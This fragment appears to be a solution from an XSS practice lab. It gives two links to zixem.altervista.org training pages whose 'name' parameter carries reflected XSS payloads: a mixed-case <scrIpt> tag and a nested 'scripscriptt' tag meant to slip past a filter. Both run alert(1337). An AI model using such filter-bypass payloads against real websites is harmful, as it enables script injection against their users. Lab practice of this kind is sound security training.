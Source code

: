 [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E)

[http://www.zixem.altervista.org/XSS/2.php?name=<scripscriptt>alert(1337)</scripscriptt>](https://zixem.altervista.org/XSS/2.php?name=%3Cscripscriptt%3Ealert(1337)%3C/scripscriptt%3E)

